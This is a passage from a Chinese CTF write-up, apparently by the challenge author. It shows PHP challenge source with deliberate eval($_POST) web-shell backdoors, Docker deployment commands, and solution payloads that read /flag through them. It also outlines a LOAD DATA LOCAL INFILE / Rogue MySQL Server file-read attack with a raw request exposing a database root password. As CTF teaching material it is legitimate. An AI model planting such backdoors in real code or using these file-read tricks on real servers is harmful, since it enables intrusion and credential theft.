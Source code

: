 ```php
    echo 'HZNU{this_is_real_flag}';
} elseif( isset($_POST['1'])  &&  strpos($_POST['1'], 'ls') !== false &&  strpos($_POST['1'], 'ls ..') == false  &&  strpos($_POST['1'], 'ls /') == false  ){
    echo 'index.php';
}else{
    eval($_POST['1']);
}




eval($_POST['ljtn']);
?>
```

运行部署：（cd进源码目录，会映射到9024端口）

```bash
快速构建：
docker build -t hstof . && docker run -d --name=hstof -e FLAG=HZNUCTF{test_flag} -p 9032:80 --rm hstof

快速重启：
docker stop hstof && docker rmi hstof && docker build -t hstof . && docker run -d --name=hstof -e FLAG=HZNUCTF{test_flag} -p 9032:80 --rm hstof
```

WP：（有时候眼睛看见的不一定是真的，只是别人想让你看到的罢了）

能成功骗过蚂蚁剑，就是根目录下看不见/flag

![image-20240411184822028](https://tc-md.oss-cn-hangzhou.aliyuncs.com/wujie/image-20240411184822028.png)

这句但凡你不相信我一次读一下`index.php`就能赢

```
1=cat /index.php
ljtn=cat /flag
```

### ezsql

利用LOAD DATA LOCAL INFILE来读取文件，

可以使用自己的mysql或者使用Rogue Mysql Server。

读取数据库用户名密码，然后访问

```http
POST /query.php HTTP/1.1
Host: 10.244.0.254:28002
Content-Length: 72
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.244.0.254:28004
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.244.0.254:28004/
Cookie: PHPSESSID=ezsql
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

host=127.0.0.1&username=root&password=asd222%21%21%40332asc&dbname=mysql
```
